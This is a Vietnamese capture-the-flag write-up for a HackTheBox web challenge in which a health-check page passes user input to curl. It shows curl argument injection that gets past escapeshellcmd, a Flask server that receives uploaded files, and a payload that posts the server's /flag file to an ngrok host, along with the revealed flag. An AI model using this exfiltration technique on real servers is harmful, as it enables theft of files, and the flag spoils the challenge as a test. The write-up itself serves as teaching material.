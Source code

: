 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/1.png)

bài này cũng không khó
ta thấy rằng web này cho ta dùng __curl trong linux__ để crawl đến web khác,  ta không thể thực hiện command injection vì hàm __escapeshellcmd($host)__ đã chặn.
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/3.png)
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/4.png)
<br />
nhưng  lệnh __curl__ trong linux có thể upload file đến một máy web khác bằng lệnh như sau __curl $url_attacker -X POST -F file=@@/đường_dẫn_file__ 
<br />
trong tệp __Dockerfile__ ta có thể thấy đường dẫn __/flag__
<br />
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/Untitled.png)

ta chạy web để bắt file được gửi về, có thể sử dụng đoạn mã python sau
```from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods = [ 'POST'])
def upload_file():
    if request.method == 'POST':
      f = request.files['file']
      f.save(f.filename)
      return 'file uploaded successfully'

if __name__ == '__main__':
   app.run(host="0.0.0.0",port=8888)
   ``` 
   
sau đó nhập payload này:  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/upload -X POST -F file=@/flag`
như vậy ta sẽ nhận tệp flag gửi về __HTB{curl_pwn4g3_3n_r0ut3!}__
<br /> dùng ngrok để tạo ra điểm truy cập cho chính máy của mình, ta sẽ có đoạn cái đường dẫn url này  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io `

[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/web_health_check.zip)
